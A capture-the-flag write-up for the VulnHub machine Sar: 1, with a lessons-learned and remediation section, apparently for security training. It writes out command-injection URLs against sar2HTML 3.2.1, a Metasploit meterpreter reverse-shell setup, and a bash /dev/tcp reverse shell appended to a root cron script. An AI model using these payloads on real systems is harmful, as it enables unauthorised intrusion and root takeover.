



# Sar: 1 — Writeup

| | |
|-|-|
| **Target IP** | 192.168.29.212 (host-only) |
| **Difficulty** | Easy |
| **OS** | Linux (Ubuntu) |
| **User Flag** | `/home/love/Desktop/user.txt` |
| **Root Flag** | `/root/root.txt` |
| **Source** | [VulnHub](https://www.vulnhub.com/entry/sar-1,425/) |

## Attack Summary

nmap finds only port 80 → dirb + robots.txt exposes `/sar2html` → sar2HTML 3.2.1 RCE via `plot` parameter → Metasploit `web_delivery` → www-data shell → writable `/var/www/html/write.sh` called by root cron every 5 minutes → inject reverse shell → root.

## Methodology

1. Web enumeration: `robots.txt` reveals `/sar2html`
2. Exploitation: command injection in sar2HTML via `plot` parameter
3. Shell via Metasploit `web_delivery` module
4. Privilege escalation: writable cron script injection

---

## Step 1: Network Discovery and Port Scan

```bash
sudo netdiscover -i eth1 -r 192.168.29.0/24
nmap -p- -A 192.168.29.212
```

**Only port 80/HTTP is open.**



---

## Step 2: Web Enumeration

The web root shows the default Apache page. Run directory brute-force:

```bash
dirb http://192.168.29.212
```

`/robots.txt` is found. Reading it reveals an entry for **`/sar2html`**.



Browse to `http://192.168.29.212/sar2html` — sar2HTML web interface (version 3.2.1) is running.

---

## Step 3: sar2HTML Command Injection

sar2HTML 3.2.1 passes the `plot` GET parameter directly to a shell command without sanitization.

Verify command execution:

```
http://192.168.29.212/sar2html/index.php?plot=;id
```

The response includes `uid=33(www-data)`.

```
http://192.168.29.212/sar2html/index.php?plot=;cat+/etc/passwd
```

Confirms RCE.


---

## Step 4: Reverse Shell via Metasploit web_delivery

```bash
# In Metasploit
use exploit/multi/script/web_delivery
set target 1
set lhost 192.168.29.208
set lport 4444
set payload php/meterpreter/reverse_tcp
exploit
```

Metasploit generates a PHP one-liner. URL-encode it and deliver via the injection:

```
http://192.168.29.212/sar2html/index.php?plot=;php+-r+'<PAYLOAD>'
```

Meterpreter session opens as `www-data`.


```bash
cat /home/love/Desktop/user.txt
```

---

## Step 5: Privilege Escalation — Writable Cron Script

```bash
ls -la /var/www/html/
cat /var/www/html/finally.sh
```

```bash
#!/bin/bash
/var/www/html/write.sh
```

```bash
ls -la /var/www/html/write.sh
# -rwxrwxrwx  — world-writable
```

A cron job runs `finally.sh` as root every 5 minutes, which in turn calls `write.sh`.

Inject a reverse shell into `write.sh`:

```bash
# Start a listener
nc -lvp 5555

# Append to write.sh
echo "bash -i >& /dev/tcp/192.168.29.208/5555 0>&1" >> /var/www/html/write.sh
```

Wait up to 5 minutes for the cron job to fire. Root shell received.

```bash
cat /root/root.txt
```



---

## Lessons Learned

1. **robots.txt as a recon source**: entries in `robots.txt` are meant to hide pages from search engines, but they actively advertise paths to attackers.
2. **Command injection in sar2HTML**: never pass user-controlled input to shell commands — use allowlists and proper escaping.
3. **World-writable scripts in webroot**: `/var/www/html/write.sh` with 777 permissions called by a root cron is a trivial escalation path.
4. **Root cron scripts**: any script run by root that a non-root user can modify is a privilege escalation primitive.

## Remediation

| Vulnerability | Fix |
|---|---|
| sar2HTML command injection | Update to latest version; restrict web access; replace with maintained tool |
| robots.txt exposure | Do not list sensitive paths in `robots.txt`; rely on authentication |
| World-writable cron script | Set strict permissions (e.g., `chmod 700`, owned by root) |
| Root cron calling user-writable files | Audit cron jobs; never call files writable by non-root users |
